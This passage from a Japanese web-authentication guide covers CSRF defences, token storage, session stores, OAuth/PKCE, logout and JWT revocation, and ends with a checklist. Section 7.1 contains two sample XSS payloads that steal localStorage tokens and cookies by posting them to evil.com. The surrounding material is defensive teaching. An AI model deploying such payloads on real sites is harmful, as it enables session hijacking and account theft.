`SameSite` に対応していない古いブラウザや、特定のユースケースでは、Double Submit Cookie パターンを使用する。

```mermaid
sequenceDiagram
    participant B as ブラウザ
    participant S as サーバー

    B->>S: GET /page (セッション確立済み)
    S-->>B: HTMLレスポンス<br/>+ Set-Cookie: csrf_token=random123 (Secure, NOT HttpOnly)

    Note over B: JavaScriptでcookieからcsrf_tokenを読み取り<br/>リクエストヘッダーに設定

    B->>S: POST /api/action<br/>Cookie: session_id=abc; csrf_token=random123<br/>X-CSRF-Token: random123

    S->>S: Cookie内のcsrf_tokenと<br/>ヘッダーのX-CSRF-Tokenが一致するか検証
    S-->>B: レスポンス
```

```python
import secrets
from functools import wraps
from flask import request, abort, make_response

def set_csrf_cookie(response):
    """Set CSRF token cookie (not HttpOnly, so JS can read it)"""
    csrf_token = secrets.token_urlsafe(32)
    response.set_cookie(
        'csrf_token',
        csrf_token,
        secure=True,
        httponly=False,  # Must be readable by JavaScript
        samesite='Strict',
        max_age=3600
    )
    return csrf_token

def csrf_protect(f):
    """Decorator to verify CSRF token on state-changing requests"""
    @wraps(f)
    def decorated_function(*args, **kwargs):
        if request.method in ('POST', 'PUT', 'PATCH', 'DELETE'):
            cookie_token = request.cookies.get('csrf_token')
            header_token = request.headers.get('X-CSRF-Token')
            if not cookie_token or not header_token:
                abort(403)
            # Use constant-time comparison to prevent timing attacks
            if not secrets.compare_digest(cookie_token, header_token):
                abort(403)
        return f(*args, **kwargs)
    return decorated_function
```

### 6.4 Synchronizer Token パターン

サーバーサイドでCSRFトークンを管理する古典的な方法である。

```python
# On form render: generate and store CSRF token in session
def render_form(session):
    csrf_token = secrets.token_urlsafe(32)
    session['csrf_token'] = csrf_token
    return render_template('form.html', csrf_token=csrf_token)

# form.html
# <input type="hidden" name="csrf_token" value="{{ csrf_token }}">

# On form submit: verify token
def handle_form_submit(request, session):
    submitted_token = request.form.get('csrf_token')
    stored_token = session.get('csrf_token')
    if not submitted_token or not stored_token:
        raise CSRFError("Missing CSRF token")
    if not secrets.compare_digest(submitted_token, stored_token):
        raise CSRFError("Invalid CSRF token")
    # Invalidate token after use to prevent replay
    del session['csrf_token']
    # Process form...
```

> [!NOTE]
> 現代のSPAアーキテクチャでは、APIをBearerトークンで呼び出す場合CSRF対策は不要になる。CSRFはブラウザが自動的にCookieを送信することを悪用した攻撃であり、`Authorization: Bearer ...` ヘッダーはJavaScriptが明示的に設定するため、クロスサイトのスクリプトなしには設定できないからである。

## 7. XSS対策とトークン保管

### 7.1 XSS攻撃と認証情報の漏洩

XSS（Cross-Site Scripting）攻撃では、攻撃者がターゲットサイトのコンテキストでJavaScriptを実行できる。認証トークンがJavaScriptからアクセス可能な場所に保存されていると、そのトークンを盗まれる。

```javascript
// XSS payload: steal tokens from localStorage
const token = localStorage.getItem('access_token');
fetch('https://evil.com/collect', {
  method: 'POST',
  body: JSON.stringify({ token })
});

// XSS payload: steal cookies (if NOT HttpOnly)
const cookies = document.cookie;
fetch('https://evil.com/collect', {
  method: 'POST',
  body: JSON.stringify({ cookies })
});
```

### 7.2 保管場所の比較

| 保管場所 | XSSリスク | CSRFリスク | 永続性 | 推奨度 |
|----------|-----------|------------|--------|--------|
| HttpOnly Cookie | 低（JSからアクセス不可） | あり（SameSiteで軽減） | ブラウザが管理 | 高（Refresh Token） |
| メモリ（変数） | 低（ページ遷移で消える） | なし | ページ遷移で失う | 高（Access Token） |
| localStorage | 高（JSから常に読める） | なし | 永続 | 低 |
| sessionStorage | 高（JSから常に読める） | なし | タブを閉じると消える | 低〜中 |



**推奨パターン（Token in Cookie）**:

```javascript
// Frontend: access token stored in memory (not localStorage)
let accessToken = null;

async function fetchWithAuth(url, options = {}) {
  if (!accessToken || isTokenExpired(accessToken)) {
    // Silently refresh using HttpOnly cookie (refresh token)
    accessToken = await refreshAccessToken();
  }
  return fetch(url, {
    ...options,
    headers: {
      ...options.headers,
      'Authorization': `Bearer ${accessToken}`,
    },
  });
}

async function refreshAccessToken() {
  const response = await fetch('/api/auth/refresh', {
    method: 'POST',
    credentials: 'include', // Send HttpOnly cookie
  });
  if (!response.ok) {
    // Redirect to login
    window.location.href = '/login';
    throw new Error('Session expired');
  }
  const data = await response.json();
  return data.access_token; // Store only in memory
}
```

> [!CAUTION]
> `localStorage` にJWTを保存するパターンはインターネット上に多く見受けられるが、XSSに対して脆弱である。CSPやフレームワークのサニタイズによってXSSリスクを低減できても、それに頼り切るべきではない。認証トークンの保管場所はセキュリティの根幹であり、HttpOnly Cookieとメモリの組み合わせが最善の選択である。

## 8. セッション管理の実装パターン

### 8.1 Redisを使ったセッション管理

高トラフィック環境では、インメモリDBのRedisがセッションストアとして最もよく使われる。

```python
import redis
import secrets
import json
from datetime import timedelta

class RedisSessionStore:
    def __init__(self, redis_url: str):
        self.redis = redis.from_url(redis_url)
        self.ttl = timedelta(hours=24)

    def create_session(self, user_id: str, metadata: dict = {}) -> str:
        """Create a new session and return the session ID"""
        session_id = secrets.token_urlsafe(32)
        session_data = {
            "user_id": user_id,
            "created_at": datetime.utcnow().isoformat(),
            **metadata,
        }
        key = f"session:{session_id}"
        self.redis.setex(key, self.ttl, json.dumps(session_data))
        return session_id

    def get_session(self, session_id: str) -> dict | None:
        """Retrieve session data"""
        key = f"session:{session_id}"
        data = self.redis.get(key)
        if data is None:
            return None
        return json.loads(data)

    def delete_session(self, session_id: str) -> None:
        """Delete session (logout)"""
        key = f"session:{session_id}"
        self.redis.delete(key)

    def extend_session(self, session_id: str) -> None:
        """Extend session TTL (sliding session)"""
        key = f"session:{session_id}"
        self.redis.expire(key, self.ttl)
```

### 8.2 データベースを使ったセッション管理

監査ログが必要な場合や、アクティブセッション一覧をユーザーに見せる場合は、DBでセッションを管理する。

```sql
-- Session table schema
CREATE TABLE sessions (
    id          UUID PRIMARY KEY DEFAULT gen_random_uuid(),
    session_id  VARCHAR(64) UNIQUE NOT NULL,  -- Hashed session ID
    user_id     BIGINT NOT NULL REFERENCES users(id) ON DELETE CASCADE,
    ip_address  INET,
    user_agent  TEXT,
    created_at  TIMESTAMPTZ NOT NULL DEFAULT NOW(),
    last_seen   TIMESTAMPTZ NOT NULL DEFAULT NOW(),
    expires_at  TIMESTAMPTZ NOT NULL,
    revoked     BOOLEAN NOT NULL DEFAULT FALSE
);

CREATE INDEX idx_sessions_user_id ON sessions(user_id);
CREATE INDEX idx_sessions_session_id ON sessions(session_id);
```

```python
def get_session_from_db(raw_session_id: str, db) -> dict | None:
    """Retrieve session from database"""
    # Store hashed version to prevent DB breach from leaking valid tokens
    hashed_id = hashlib.sha256(raw_session_id.encode()).hexdigest()
    session = db.query(
        "SELECT * FROM sessions WHERE session_id = %s AND revoked = FALSE AND expires_at > NOW()",
        (hashed_id,)
    )
    if session:
        # Update last_seen
        db.execute(
            "UPDATE sessions SET last_seen = NOW() WHERE session_id = %s",
            (hashed_id,)
        )
    return session
```

### 8.3 署名付きCookieによるセッション管理

小〜中規模のアプリケーションでは、サーバーサイドのストアを持たずに、Cookieそのものにセッションデータを含め、改ざんを署名で防ぐ方法もある。

```python
import hmac
import hashlib
import base64
import json
import os

SECRET_KEY = os.environ['SESSION_SECRET_KEY']  # 32+ bytes random secret

def encode_session(data: dict) -> str:
    """Encode session data into a signed cookie value"""
    payload = base64.urlsafe_b64encode(
        json.dumps(data).encode()
    ).decode()
    # HMAC-SHA256 signature
    sig = hmac.new(
        SECRET_KEY.encode(),
        payload.encode(),
        hashlib.sha256
    ).hexdigest()
    return f"{payload}.{sig}"

def decode_session(cookie_value: str) -> dict | None:
    """Decode and verify signed cookie"""
    try:
        payload, sig = cookie_value.rsplit('.', 1)
    except ValueError:
        return None

    # Verify signature (constant-time comparison)
    expected_sig = hmac.new(
        SECRET_KEY.encode(),
        payload.encode(),
        hashlib.sha256
    ).hexdigest()
    if not hmac.compare_digest(sig, expected_sig):
        return None  # Tampered cookie

    data = json.loads(base64.urlsafe_b64decode(payload).decode())
    # Check expiration
    if data.get('exp', 0) < time.time():
        return None
    return data
```

Flaskの `flask.session`、Railsの `CookieStore`、ExpressのCookie-Sessionがこの方式を採用している。

> [!WARNING]
> 署名付きCookieはデータの**機密性は保証しない**（Base64はエンコードであり暗号化ではない）。ユーザーはCookieの中身を見ることができる。機密性が必要な場合は暗号化も必要である。また、秘密鍵が漏洩した場合は全セッションを無効化するために秘密鍵をローテーションする必要がある。

## 9. OAuth 2.0 / OIDC連携における認証フロー

### 9.1 OAuth 2.0 と OIDC の関係

OAuth 2.0 は**認可**フレームワークであり、第三者アプリケーションへのアクセス委譲を定義する。OIDC（OpenID Connect）はOAuth 2.0の上に**認証**レイヤーを追加したものである。

```
OAuth 2.0:  「このアプリにGoogleドライブへのアクセスを許可しますか？」（認可）
OIDC:       「Googleアカウントでサインインする」（認証）
```

### 9.2 Authorization Code Flow with PKCE

SPAやモバイルアプリケーションで最も推奨される認証フローがPKCE（Proof Key for Code Exchange）を使ったAuthorization Code Flowである。



```javascript
// PKCE implementation (frontend)
function generateCodeVerifier() {
  const array = new Uint8Array(32);
  crypto.getRandomValues(array);
  return base64UrlEncode(array);
}

async function generateCodeChallenge(verifier) {
  const encoder = new TextEncoder();
  const data = encoder.encode(verifier);
  const digest = await crypto.subtle.digest('SHA-256', data);
  return base64UrlEncode(new Uint8Array(digest));
}

async function initiateOAuthLogin() {
  const verifier = generateCodeVerifier();
  const challenge = await generateCodeChallenge(verifier);
  const state = crypto.randomUUID();

  // Store in sessionStorage for callback verification
  sessionStorage.setItem('pkce_verifier', verifier);
  sessionStorage.setItem('oauth_state', state);

  const params = new URLSearchParams({
    response_type: 'code',
    client_id: CLIENT_ID,
    redirect_uri: REDIRECT_URI,
    code_challenge: challenge,
    code_challenge_method: 'S256',
    scope: 'openid email profile',
    state,
  });

  window.location.href = `${AUTH_URL}/authorize?${params}`;
}
```

### 9.3 IDトークンの検証

サーバーサイドでOIDCのIDトークンを受け取った場合、以下を検証する必要がある。

```python
from jose import jwt
import httpx

async def verify_google_id_token(id_token: str) -> dict:
    """Verify Google OIDC ID token"""
    # Fetch Google's public keys
    response = await httpx.get('https://www.googleapis.com/oauth2/v3/certs')
    jwks = response.json()

    # Decode and verify
    claims = jwt.decode(
        id_token,
        jwks,
        algorithms=['RS256'],
        audience=GOOGLE_CLIENT_ID,  # Verify intended audience
        issuer='https://accounts.google.com',
    )

    # Additional custom validations
    assert claims['email_verified'] == True
    assert claims['exp'] > time.time()

    return {
        "provider_id": claims['sub'],  # Google's user ID
        "email": claims['email'],
        "name": claims.get('name'),
    }
```

## 10. ログアウトの実装

### 10.1 ログアウトが難しい理由

ログアウトは一見シンプルに見えるが、すべての認証状態を確実に破棄するためには細心の注意が必要である。



### 10.2 セッションの確実な破棄

```python
from flask import request, redirect, make_response

def logout():
    """Complete logout implementation"""
    # 1. Get session ID from cookie
    session_id = request.cookies.get('session_id')

    if session_id:
        # 2. Invalidate server-side session
        session_store.delete_session(session_id)

        # 3. Also revoke all refresh tokens for this session
        refresh_token = request.cookies.get('refresh_token')
        if refresh_token:
            token_hash = hashlib.sha256(refresh_token.encode()).hexdigest()
            db.refresh_tokens.update_one(
                {"token_hash": token_hash},
                {"$set": {"revoked": True}}
            )

    # 4. Clear cookies properly
    response = make_response(redirect('/login'))
    # Set Max-Age=0 to expire immediately
    response.set_cookie('session_id', '', max_age=0, secure=True, httponly=True, samesite='Lax')
    response.set_cookie('refresh_token', '', max_age=0, secure=True, httponly=True, samesite='Strict')

    return response
```

### 10.3 JWTの無効化問題

JWTはステートレスなため、発行されたアクセストークンを即座に無効化することが原理的に難しい。よく使われる対策として以下がある。

**方法1: 短命トークン（最もシンプル）**

アクセストークンの有効期限を5〜15分と短くし、ログアウト後は有効期限切れを待つ。リフレッシュトークンだけを無効化すれば、以降の更新はできなくなる。

**方法2: ブロックリスト（高確実性）**

```python
class JWTBlocklist:
    """Redis-backed JWT blocklist"""

    def __init__(self, redis_client):
        self.redis = redis_client

    def revoke(self, jti: str, exp: int) -> None:
        """Add JWT ID to blocklist until expiration"""
        ttl = exp - int(time.time())
        if ttl > 0:
            # Key: "blocklist:{jti}", TTL matches token expiration
            self.redis.setex(f"blocklist:{jti}", ttl, "1")

    def is_revoked(self, jti: str) -> bool:
        """Check if token is in blocklist"""
        return self.redis.exists(f"blocklist:{jti}") == 1


# On logout
def logout_jwt(access_token: str):
    claims = jwt.decode(access_token, options={"verify_exp": False})
    blocklist.revoke(claims['jti'], claims['exp'])
```

**方法3: トークンバージョン（ユーザー単位の一括無効化）**

```python
# User table has a token_version field
# Users table: { id, ..., token_version: int }

# JWT payload includes the version
{
  "sub": "user-42",
  "token_version": 3,   # Must match user's current version
  "exp": ...
}

# On logout (or password change), increment version
def force_logout_all_sessions(user_id: str, db):
    """Invalidate all tokens by incrementing version"""
    db.users.update_one(
        {"_id": user_id},
        {"$inc": {"token_version": 1}}
    )

# On token validation, check version
def validate_token(token: str, db) -> bool:
    claims = jwt.decode(token, SECRET)
    user = db.users.find_one({"_id": claims['sub']})
    return user['token_version'] == claims['token_version']
```

### 10.4 全デバイスからのログアウト

セキュリティインシデントを受けて全デバイスのセッションを無効化する機能は、重要なセキュリティ機能である。

```python
def logout_all_devices(user_id: str, db, redis):
    """Invalidate all sessions and refresh tokens for a user"""

    # 1. Delete all sessions from Redis
    # Use scan to avoid blocking Redis
    cursor = 0
    while True:
        cursor, keys = redis.scan(cursor, match=f"session:user:{user_id}:*", count=100)
        if keys:
            redis.delete(*keys)
        if cursor == 0:
            break

    # 2. Revoke all refresh tokens in database
    db.refresh_tokens.update_many(
        {"user_id": user_id, "revoked": False},
        {"$set": {"revoked": True}}
    )

    # 3. Increment token version (for JWT invalidation)
    db.users.update_one(
        {"_id": user_id},
        {"$inc": {"token_version": 1}}
    )
```

## 11. 認証実装のセキュリティチェックリスト

認証実装を本番環境に投入する前に、以下のチェックリストを確認することを推奨する。

### Cookie設定

- [ ] 認証CookieにHttpOnly属性が付いているか
- [ ] 認証CookieにSecure属性が付いているか（本番環境）
- [ ] SameSite=LaxまたはStrictが設定されているか
- [ ] `__Host-` プレフィックスの使用を検討したか

### トークン設計

- [ ] アクセストークンの有効期限は短い（15分以内）か
- [ ] リフレッシュトークンはOpaque Token（ランダム文字列）か
- [ ] リフレッシュトークンはハッシュ化してDBに保存しているか
- [ ] Refresh Token Rotationを実装しているか
- [ ] 再利用検出（Reuse Detection）を実装しているか

### 攻撃対策

- [ ] CSRF対策が実施されているか（SameSite Cookie / Synchronizer Token）
- [ ] XSS対策としてコンテンツセキュリティポリシー（CSP）を設定しているか
- [ ] トークンをlocalStorageに保存していないか
- [ ] タイミング攻撃を防ぐためにconstant-time比較を使用しているか

### セッション管理

- [ ] ログアウト時にサーバーサイドのセッション/トークンを無効化しているか
- [ ] ログアウト時にCookieを適切に削除しているか（Max-Age=0）
- [ ] パスワード変更時に全セッションを無効化しているか
- [ ] セッションIDはログイン成功後に再生成しているか（セッション固定化攻撃対策）

### OAuth / OIDC

- [ ] PKCEを使用したAuthorization Code Flowを採用しているか
- [ ] stateパラメータを検証しているか
- [ ] IDトークンの署名・aud・iss・expを検証しているか

## 12. まとめ

Webアプリケーションの認証実装は、単純に見えて多くのセキュリティ上の落とし穴がある領域である。本記事で解説した各パターンの要点をまとめる。

**Cookie認証 vs Token認証**: セッション + Cookieはシンプルで即時無効化が容易。JWTはステートレスでマイクロサービスに向くが、無効化の仕組みを別途設計する必要がある。多くの場合、JWTをHttpOnly Cookieに格納するハイブリッドアプローチが現実的な解となる。

**Cookie属性の設計**: `HttpOnly`・`Secure`・`SameSite=Lax` は最低限の設定として必須。`__Host-` プレフィックスを使うとさらに強固になる。

**Refresh Token Rotation**: アクセストークンを短命にし、リフレッシュトークンを使用するたびに交換する。再利用検出でトークンファミリー全体を無効化することで、漏洩したトークンの悪用を即座に検知できる。

**CSRF対策**: `SameSite=Lax` Cookieが現代のCSRF対策の主軸。さらにDouble Submit CookieやSynchronizer Token Patternを組み合わせることで多層防御を実現できる。

**XSS対策とトークン保管**: アクセストークンはメモリに、リフレッシュトークンはHttpOnly Cookieに保管する。localStorageへのトークン保存は避けること。

**ログアウトの完全性**: サーバーサイドのセッション破棄・トークン無効化・Cookieの明示的な削除を組み合わせて、確実なログアウトを実現する。

認証はセキュリティの根幹であり、ライブラリやサービス（Auth0、Keycloak、Supabase Auth等）を活用して実績ある実装を使うことも重要な選択肢である。自前で実装する場合は、本記事で示した各原則を守りながら、定期的なセキュリティレビューを欠かさないようにすること。
